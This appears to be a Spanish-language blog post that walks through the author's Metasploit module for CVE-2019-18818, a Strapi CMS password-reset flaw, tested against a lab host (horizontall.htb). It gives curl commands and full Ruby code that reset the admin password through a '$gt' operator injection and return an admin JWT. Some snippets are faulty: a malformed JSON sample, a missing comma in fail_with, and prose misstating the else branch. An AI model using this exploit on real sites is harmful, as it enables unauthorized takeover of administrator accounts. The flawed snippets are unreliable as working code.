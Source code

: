 ```yaml
---
title: "CVE-2019-18818 (Metasploit) - POC"
layout: single
excerpt: "Strapi CMS versión 3.0.0-beta.17.4 maneja mal el restablecimiento de contraseña y esto permite a un atacante hacerse con el control de una cuenta privilegiada, de manera que he desarrollado un módulo de exploit en Metasploit y enseño de manera práctica como explotar dicha vulnerabilidad."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/153302563-a3a8e679-3b9b-447e-b714-8d76e91cbd0a.png"
  teaser_home_page: true
  icon:
categories:
  - Vulnearabilities
tags:
  - CVE
  - Set Password
  - Metasploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/153302563-a3a8e679-3b9b-447e-b714-8d76e91cbd0a.png">
</p>

Hace relativamente poco comencé en la creación de módulos auxiliares y exploits para *Metasploit Framework* y me gustaría compartir mi experiencia en mi primer módulo auxiliar del CVE-2019-18818.

Antes de comenzar a explicar de que se compone el módulo, un breve resumen sobre que es *CVE-2019-18818*. Esta vulnerabilidad fue publicada en la [*NATIONAL VULNERABILITY DATABASE*](https://nvd.nist.gov/vuln/detail/CVE-2019-18818) (NVD) el 11 de julio de 2019, dicha falla maneja mal el restablecimiento de la contraseña en `packages/strapi-admin/controllers/Auth.js` y `packages/strapi-plugin-users-permissions/controllers/Auth.js` en Strapi 3.0.0-beta.17.4, por ende esto permite cambiar la contraseña de un usuario privilegiado y asimismo garantizar el acceso no autorizado al CMS, de ahi que fue catalogada como CRÍTICA por su gravedad y fácil explotación.

Por si no fuera poco, tiempo después, el 5 de diciembre de 2019 fue encontrado el CVE-2019-19609 en Strapi 3.0.0-beta.17.8, a diferencia del CVE-2019-18818, esta permitía la ejecución de código arbitrario por un usuario autenticado. 

A todo esto, usar la beta de Strapi CMS en versiones desactualizadas da oportunidad a un atacante a comprometerte. 

Ahora bien, como se explota?, pues bien, es muy fácil, enviaremos datos JSON al servidor a una ruta específica del CMS y ganaremos acceso como un usuario legítimo volcando un JSON Web Token.

Primeramente, es verificar si la versión que se está empleando en Strapi es vulnerable, es decir anteriores a la 3.0.0-beta.17.5, por ello podemos enviar datos JSON mediante una petición GET al servidor en '/admin/init' especificando a la cabecera `Content-Type` que estamos enviando datos en JSON, esto lo podemos hacer de la siguiente manera con `curl`.

```json
┌──(root💀kali)-[/home/kali]
└─# curl -X GET http://api-prod.horizontall.htb/admin/init -H 'Content-type: application/json' -s | jq                        
{                                                                                                                             
  "data": {                                                                                                                   
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",                                                                           
    "currentEnvironment": "development",                                                                                      
    "autoReload": false,                                                                                                      
    "strapiVersion": "3.0.0-beta.17.4"                                                                                        
  }                                                                                                                           
} 
```
En el módulo auxiliar de Metasploit, implemente esta funcionalidad en la función `check`.

```ruby
def check
    res = send_request_raw({ 'uri' => '/admin/init' })
    version = JSON.parse(res.body) 

    if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end    
end
```

Hago uso de `send_request_raw` para enviar una petición GET, seguidamente parseo la data en JSON de la respuesta del servidor con `JSON.parse` y la guardo en la variable `version`, defino una condición, `if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'`, extraigo strapiVersion de la variable versión que contiene la versión y hace una comparacion, si strapiVersion es igual a '3.0.0-beta.17.4', entonces el servidor es vulnerable, por lo cual devuelvo `return Exploit::CheckCode::Vulnerable`, de lo contrario retorno `return Exploit::CheckCode::Vulnerable`.

Hasta ahora esto ha sido para verificar que el servidor sea vulnerable, ahora vayamos con la explotación de la vulnerabilidad.

Enviaremos una petición POST a `/admin/auth/reset-password` y especificaremos los siguientes datos en JSON:

```json                                                                                           
{
  "code": {"$gt:0"}, # Bypass WAF
  "password": "Newpass123", # Nueva contraseña
  "passwordConfirmation": "Newpass123" # Confirmacion nueva contraseña
}
```
Lo podemos hacer con `curl` de esta manera:

```json
┌──(root💀kali)-[/home/kali]
└─# curl -X POST -H 'Content-type: application/json' http://api-prod.horizontall.htb/admin/auth/reset-password -d '{"code": {"$gt":0},"password":"pas","passwordConfirmation":"pas"}' -s | jq
{
  "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NDQ0MjI0LCJleHAiOjE2NDcwMzYyMjR9.il6oFUjKXH7ke_uOVqM99quXU9qOyfKKY30ihgG21I4",                                                                                   
  "user": {
    "id": 3,
    "username": "admin",
    "email": "admin@horizontall.htb",
    "blocked": null
  }
}
```
> La respuesta nos muestra un JWT valido del usuario admin que puede ser usado mas tarde.

Este seria el codigo en el modulo de Metasploit.

```ruby
def run
    json_body = { 'code' => {'$gt' => 0},
      'password' => datastore['NEW_PASSWORD'],
      'passwordConfirmation' => datastore['NEW_PASSWORD'] }

    res = send_request_cgi({
      'method' => 'POST',
      'uri' => '/admin/auth/reset-password',
      'ctype' => 'application/json',
      'data' => JSON.generate(json_body)
    })

    print_status("Changing password...")
    json_format = JSON.parse(res.body)
    jwt = json_format['jwt']

    if res.code == 200
      print_good("Password changed successfully!")
      print_good("USER: admin")
      print_good("PASSWORD: #{datastore['NEW_PASSWORD']}")
      print_good("JWT: #{jwt}")
    else
      fail_with(Failure::NoAccess"Could not change admin user password")
    end
  end
```

Comienzo definiendo mi data JSON en formato Ruby concatenando los datos del usuario, la guardo en la variable `json_body` y envió una petición POST usando `send_request_cgi`, genero mi data JSON válida con `JSON.generate(json_body)` en la peticion, guardo la petición en la variable `res` y parseo la data de esta con `JSON.parse(res.body)`, la almaceno en `json_format` y después guardo el parámetro JWT que contiene el JSON Web Token del usuario admin en la variable `jwt = json_format['jwt']` y hago una comparación, `if res.code == 200`, es decir si la respuesta del código de estado de lado del servidor es 200 OK, quiere decir que la contraseña se cambió con éxito y te muestra la contraseña, el usuario y el JWT nuevos del usuario admin, de lo contrario muestro *Could not change admin user password*.

# POC

<script id="asciicast-EXk92PvUUB0M1xZDXmTdyZV1v" src="https://asciinema.org/a/EXk92PvUUB0M1xZDXmTdyZV1v.js" async></script>


